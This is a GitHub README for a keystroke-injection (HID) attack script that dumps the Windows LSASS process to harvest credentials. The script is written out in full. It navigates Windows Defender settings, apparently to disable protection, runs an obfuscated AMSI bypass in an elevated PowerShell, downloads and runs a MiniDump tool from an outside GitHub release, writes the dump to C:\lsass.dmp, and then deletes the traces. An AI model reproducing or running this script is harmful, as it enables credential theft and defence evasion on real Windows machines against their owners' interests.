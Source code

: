 # Credentials - Dump LSASS Process

## Description

This script will download MiniDump, extract it, run it to dump LSASS process to "C:\\lsass.dmp" or where you want.

## Requirement

1. First note this script has been created and tested under Windows 11 Build 22000.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

## DEMO

<img src="https://github.com/V0lk3n/HIDScripts/blob/main/demo/Credentials/demo-lsass_dump.gif"/>

## Code

```bash
layout("ch")
press("GUI r")
delay(1000)
type("windowsdefender:")
press("ENTER")
delay(1000)
press("ENTER")
delay(1000)
press("TAB")
press("TAB")
press("TAB")
press("TAB")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("LEFT")
delay(1000)
press("ENTER")
delay(1000)
press("GUI r")
delay(200)
type("powershell.exe start-process powershell -verb runas")
press("ENTER")
delay(1500)
press("LEFT")
press("ENTER")
delay(1000)
type("[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)")
press("ENTER")
delay(1000)
type("(New-Object System.Net.WebClient).DownloadFile('https://github.com/V0lk3n/OSEP-CheatSheet/releases/download/MiniDump/MiniDump.zip','C:\\MiniDump.zip')")
press("ENTER")
delay(1000)
type("cd /")
press("ENTER")
delay(500)
type("mkdir MiniDump")
press("ENTER")
delay(500)
type("Expand-Archive -Path MiniDump.zip -DestinationPath C:\\MiniDump")
press("ENTER")
delay(1500)
type("cd MiniDump")
press("ENTER")
delay(500)
type(".\\MiniDump.exe")
press("ENTER")
delay(1000)
type("C:\\lsass.dmp")
press("ENTER")
delay(1000)
type("cd /")
press("ENTER")
type("rmdir MiniDump")
press("ENTER")
delay(1000)
type("T")
press("ENTER")
delay(1000)
type("del MiniDump.zip")
press("ENTER")
delay(500)
type("exit")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("ALT F4")
```
